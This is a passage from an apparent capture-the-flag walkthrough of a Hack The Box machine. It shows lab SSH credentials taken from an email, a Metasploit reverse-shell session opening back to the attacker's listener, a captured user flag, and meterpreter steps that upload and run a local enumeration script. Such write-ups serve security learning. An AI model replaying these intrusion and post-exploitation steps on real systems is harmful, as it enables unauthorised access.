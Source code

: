 ```{r, engine='bash', sh}
Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

So that should be enough to pop our payload.
Why not loggin in via SSH and just use that ?
After logging in via SSH you are greeted with a really limited shell.
By actually exploiting the James RCE we circumvent this.

After logging in via SSH we are greeted on our msf console window with.

```{r, engine='bash', sh}
msf exploit(handler) > [*] Command shell session 1 opened (10.10.14.40:9999 -> 10.10.10.51:51008) at 2017-10-25 06:32:16 +0200
```

#### AFTER THAT TO EDIT LOL NEED TO EXPLAIN BETTER AND MORE ####
The next steps for me are upgrading the shell to meterpreter, snatching the user.txt and running local enumeration.

```{r, engine='bash', sh}
cat /home/mindy/user.txt
914d0a4ebc177889b5b89a23f556fd75
```

The first step in local enum is always for me uploading the HighOnCovfefe script and checking the output :)
( https://highon.coffee/blog/linux-local-enumeration-script/ )

So i abort the current shell session here to go back to meterpreter, upload the local enum script, chmot it and run it.

```{r, engine='bash', sh}
meterpreter> upload covfefe.sh
meterpreter> shell
chmod a+x covfefe.sh
./covfefe.sh
```

Interesting output:

```{r, engine='bash', sh}
##
##  World Writable FIles
##


/opt/tmp.py
```

